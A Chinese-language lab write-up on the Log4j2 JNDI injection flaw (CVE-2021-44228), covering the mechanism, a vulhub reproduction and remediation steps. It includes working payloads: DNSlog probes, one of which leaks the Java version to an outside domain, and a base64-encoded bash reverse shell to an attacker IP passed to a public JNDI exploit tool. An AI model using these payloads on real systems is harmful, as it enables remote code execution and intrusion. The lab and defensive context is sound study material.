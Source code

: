 # CVE-2021-44228

### 1.1、漏洞描述

Log4j2默认支持解析ldap/rmi协议（只要打印的日志中包括ldap/rmi协议即可），并会通过名称从ldap服务端获取对应的Class文件，使用ClassLoader在本地加载Ldap服务端返回的Class类。这就为攻击者提供了攻击途径，攻击者可以在界面传入一个包含恶意内容（会提供一个恶意的Class文件）的ldap协议内容（如：恶意内容${jndi:ldap://localhost:9999/Test}恶意内容），该内容传递到后端被log4j2打印出来，就会触发恶意的Class的加载执行（可执行任意后台指令），从而达到攻击的目的。
```java
javaCopy Codeimport org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jExample {
    // 获取Logger对象，参数为当前类名
    private static final Logger logger = LogManager.getLogger(Log4jExample.class);

    public static void main(String[] args) {
        // 示例日志输出
        logger.trace("Trace 级别日志");
        logger.debug("Debug 级别日志");
        logger.info("Info 级别日志");
        logger.warn("Warn 级别日志");
        logger.error("Error 级别日志");
        logger.fatal("Fatal 级别日志");
    }
}
```

${}这是一个表达式，我们可以利用表达是输出用户信息，当前时间等。

重要的是运用表达式我们就可以使用jndi协议了，例如${jndi:ldap://localhost:9999/Test} ，利用jndi请求地址为//localhost:9999的ldap服务，查找内容Test。

你怎么说//localhost:9999是一个ladp的服务呢！也许人家就是一个普通的地址呢！没错这里客户端也没法判定，也是在请求完之后判定的，这里输入dns的地址会解析吗？会，可以利用这个特点打下dnslog请求，初步确定漏洞。  

### 1.2、漏洞原理

[【精选】Log4j2注入漏洞(CVE-2021-44228)万字深度剖析(二)—漏洞原理_log4j2漏洞-CSDN博客](https://blog.csdn.net/hilaryfrank/article/details/121939902)

### 1.3、漏洞等级

高

### 1.4、影响版本

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/log4j/CVE-2021-44228

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8983/solr/admin/cores?action=`即可看到

![image-20240409211005986](./imgs/image-20240409211005986.png)

![image-20240409211043184](./imgs/image-20240409211043184.png)



#### 2、漏洞验证

payload准备

```
${jndi:ldap://n2ii2r.dnslog.cn}
```

![image-20240409211423275](./imgs/image-20240409211423275.png)

查看dnslog平台解析记录

![image-20240409211401028](./imgs/image-20240409211401028.png)

payload插入表达式

```
${jndi:ldap://${sys:java.version}.n2ii2r.dnslog.cn}
```

![image-20240409211601179](./imgs/image-20240409211601179.png)

![image-20240409211635749](./imgs/image-20240409211635749.png)

### 1.6、深度利用

#### 1、反弹Shell

工具梭哈~

直接用JNDI注入工具`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`或`JNDIExploit-1.4-SNAPSHOT.jar`，可以在github上搜一下

> 使用方式：
> java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]

先执行如下命令，并base64编码

```bash
bash -i >& /dev/tcp/192.168.43.147/4567 0>&1
```

![image-20240409220715708](./imgs/image-20240409220715708.png)

nc监听 

```bash
 nc -lnvp 4567
```

![image-20240409214802041](./imgs/image-20240409214802041.png)

编码后的命令通过`-C`参数输入JNDI工具，通过通过`-A`参数指定攻击机的ip地址：

```bash
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjE0Ny80NTY3IDA+JjE=} | {base64,-d}|{bash,-i}" -A "192.168.43.147"
```



### 1.7、修复建议

**官方方案**：

将Log4j框架升级到2.15.0版本， 不要用2.15.0-rc1和2.15.0-rc2
**临时方案：**

1、升级JDK

2、修改log4j配置

2.1、设置参数：

```
log4j2.formatMsgNoLookups=True
```

2.2、修改jvm参数：

```
-Dlog4j2.formatMsgNoLookups=true
```

2.3、系统环境变量：

```
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS设置为true
```

2.4、禁止log4j2所在的服务器外连

使用安全产品防护：WAF、RASP

### 1.8、参考

- https://blog.csdn.net/weixin_50892961/article/details/135446028
- [Log4j2注入漏洞(CVE-2021-44228)万字深度剖析](https://blog.csdn.net/hilaryfrank/article/details/121939902)